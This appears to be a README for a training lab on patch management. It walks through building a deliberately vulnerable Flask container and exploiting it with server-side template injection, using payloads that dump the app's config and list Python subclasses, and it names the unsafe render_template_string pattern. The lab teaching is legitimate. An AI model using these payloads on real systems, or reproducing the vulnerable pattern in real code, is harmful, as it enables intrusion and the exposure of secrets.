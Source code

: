 D02 - Patch Management Strategy 

> To demonstrate D02 this is the code repository that has vulnerable code and outdates libraries and dependencies, Image

> Follow this steps to build docker image, run container, exploit vulnerability:
> 
Clone the repo:

- git clone --branch vulnerable https://github.com/yuvaraju1/d02-flask-demo.git repo-vulnerable
- cd repo-vulnerable
  
Build image:

- docker build -t d02:vulnerable .
  
Run the image:

- docker run -d -p 80:5000 --name container1 d02:vulnerable


Exploit the Vulnerability: (Server-Side Template Injection — SSTI)

curl "https://80-port-euboz6i7tt6shczw.labs.kodekloud.com/?name=%7B%7B7%2A7%7D%7D"

#output
Hello 49!#  

#access
https://80-port-euboz6i7tt6shczw.labs.kodekloud.com/?name={{2*2}}

#You will see
Hello 4!

# another input
https://80-port-v4dk6dk2lsgu3ntg.labs.kodekloud.com/?name={{config.items()}}

It returns a list of your app's secret settings, like:

ENV: "production"

DEBUG: False

SECRET_KEY: None

SESSION_COOKIE_NAME: 'session'

MAX_CONTENT_LENGTH: None

#another input
https://80-port-v4dk6dk2lsgu3ntg.labs.kodekloud.com/?name={{().__class__.__bases__[0].__subclasses__()}}

It shows all the classes currently loaded in the Python program — everything Python knows about in memory right now.

That means the Flask app is using: render_template_string(f"Hello {name}!")
which evaluates the input as a Jinja2 template — and that's dangerous when user input isn't sanitized.

> Here, This container uses outdated Flask and Python, which haven’t received security patches for years — a classic example of poor patch management
